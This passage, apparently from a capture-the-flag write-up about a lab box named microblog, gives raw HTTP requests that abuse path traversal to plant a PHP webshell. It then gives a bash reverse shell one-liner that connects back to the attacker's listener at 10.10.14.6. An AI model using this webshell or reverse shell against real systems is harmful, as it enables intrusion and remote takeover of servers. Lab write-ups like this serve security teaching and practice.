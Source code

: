     POST /edit/index.php HTTP/1.1
    Host: oxdf.microblog.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 49
    Origin: http://oxdf.microblog.htb
    Cookie: username=rbb8bp6umb0logs0i3sqlcp5kc
    Upgrade-Insecure-Requests: 1

    id=../uploads/0xdf.php&txt=<?php+echo+"0xdf!";+?>



Now with Pro access, I can access this directory, and unlike the
previous directory, this time the PHP executes:

![](/img/image-20230515163354827.png)

#### Webshell -\> Shell

I'll resend the write request, but this time writing a simple PHP
webshell:



    POST /edit/index.php HTTP/1.1
    Host: oxdf.microblog.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 61
    Origin: http://oxdf.microblog.htb
    Cookie: username=rbb8bp6umb0logs0i3sqlcp5kc
    Upgrade-Insecure-Requests: 1

    id=../uploads/0xdf.php&txt=<?php+system($_REQUEST['cmd']);+?>



Now I'll add `?cmd=[command]` to the url, and it works:

![](/img/image-20230515163515872.png)

I'll start `nc` listening on 443 and send this [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in Firefox:



    http://oxdf.microblog.htb/uploads/0xdf.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'
